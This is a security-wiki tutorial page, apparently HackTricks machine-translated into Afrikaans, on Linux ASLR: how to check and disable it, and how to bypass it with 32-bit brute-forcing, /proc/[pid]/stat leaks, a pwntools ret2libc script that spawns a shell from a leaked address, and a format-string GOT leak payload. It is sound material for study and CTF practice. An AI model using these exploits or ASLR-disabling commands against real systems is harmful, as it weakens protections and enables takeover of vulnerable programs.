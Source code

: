# ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteitstegniek wat in bedryfstelsels gebruik word om die **geheue adresse** wat deur stelsels en toepassingsprosesse gebruik word, te **randomiseer**. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data, soos die stapel, hoop en biblioteke, te voorspel, wat sekere tipes ontploffings, veral buffer oorgeloop, verminder.

### **Kontroleer ASLR Status**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space` lêer lees. Die waarde wat in hierdie lêer gestoor is, bepaal die tipe ASLR wat toegepas word:

- **0**: Geen randomisering. Alles is staties.
- **1**: Konserwatiewe randomisering. Gedeelde biblioteke, stapel, mmap(), VDSO-bladsy is gerandomiseer.
- **2**: Volledige randomisering. Benewens elemente wat deur konserwatiewe randomisering gerandomiseer is, is geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status met die volgende opdrag kontroleer:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktiveer ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` op **0**. Dit is oor die algemeen nie aanbeveel om ASLR te deaktiveer buite toets- of foutopsporingstoestande nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
U kan ook ASLR vir 'n uitvoering deaktiveer met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiveer**, kan jy 'n waarde van **2** na die `/proc/sys/kernel/randomize_va_space` lêer skryf. Dit vereis gewoonlik wortelregte. Volledige randomisering kan gedoen word met die volgende opdrag:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding Oor Herlaaiings**

Veranderings gemaak met die `echo` opdragte is tydelik en sal teruggestel word by herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of aanpas:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die redigering van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
Dit sal verseker dat jou ASLR-instellings oor herlaaiings bly.

## **Omseilings**

### 32-bit brute-forcing

PaX verdeel die prosesadresruimte in **3 groepe**:

- **Kode en data** (geïnisialiseerde en nie-geïnisialiseerde): `.text`, `.data`, en `.bss` —> **16 bits** van entropie in die `delta_exec` veranderlike. Hierdie veranderlike word ewekansig geïnitialiseer met elke proses en bygevoeg tot die aanvanklike adresse.
- **Geheue** toegeken deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
- **Die stapel** —> **24 bits**, verwys na as `delta_stack`. Dit gebruik egter effektief **11 bits** (van die 10de tot die 20ste byte insluitend), geallineer op **16 bytes** —> Dit lei tot **524,288 moontlike werklike stapeladresse**.

Die vorige data is vir 32-bit stelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die ontploffing suksesvol voltooi word.

#### Brute-force idees:

- As jy 'n groot genoeg oorgang het om 'n **groot NOP-slee voor die shellcode** te huisves, kan jy eenvoudig adresse in die stapel brute-force totdat die vloei **oor 'n deel van die NOP-slee spring**.
- 'n Ander opsie hiervoor, in die geval die oorgang nie so groot is nie en die ontploffing plaaslik uitgevoer kan word, is om **die NOP-slee en shellcode in 'n omgewingsveranderlike** by te voeg.
- As die ontploffing plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bit stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- As jy 'n afstandsbediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 as argument (byvoorbeeld). As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

> [!TIP]
> In 64-bit stelsels is die entropie baie hoër en dit is nie moontlik nie.

### Plaaslike Inligting (`/proc/[pid]/stat`)

Die lêer **`/proc/[pid]/stat`** van 'n proses is altyd deur almal leesbaar en dit **bevat interessante** inligting soos:

- **startcode** & **endcode**: Adresse bo en onder met die **TEXT** van die binêre
- **startstack**: Die adres van die begin van die **stack**
- **start_data** & **end_data**: Adresse bo en onder waar die **BSS** is
- **kstkesp** & **kstkeip**: Huidige **ESP** en **EIP** adresse
- **arg_start** & **arg_end**: Adresse bo en onder waar **cli argumente** is.
- **env_start** & **env_end**: Adresse bo en onder waar **omgewing veranderlikes** is.

Daarom, as die aanvaller op dieselfde rekenaar is as die binêre wat uitgebuit word en hierdie binêre nie die oorgang van rou argumente verwag nie, maar van 'n ander **invoer wat na die lees van hierdie lêer saamgestel kan word**. Dit is moontlik vir 'n aanvaller om **'n paar adresse uit hierdie lêer te kry en offsets daaruit vir die uitbuiting te konstrueer**.

> [!TIP]
> Vir meer inligting oor hierdie lêer, kyk na [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) en soek vir `/proc/pid/stat`

### Om 'n lek te hê

- **Die uitdaging is om 'n lek te gee**

As jy 'n lek gegee word (maklike CTF-uitdagings), kan jy offsets daaruit bereken (veronderstel byvoorbeeld dat jy die presiese libc weergawe weet wat in die stelsel wat jy uitbuit, gebruik word). Hierdie voorbeeld uitbuiting is uit die [**voorbeeld hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Deur 'n buffer overflow te misbruik, sal dit moontlik wees om 'n **ret2plt** te exploiteer om 'n adres van 'n funksie uit die libc te exfiltreer. Kyk:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitrêre lees via 'n formaat string kwesbaarheid het, is dit moontlik om die adres van 'n **libc funksie** uit die GOT te exfiltreer. Die volgende [**voorbeeld is van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
U kan meer inligting oor Format Strings arbitrêre lees vind in:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Probeer om ASLR te omseil deur adresse binne die stapel te misbruik:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
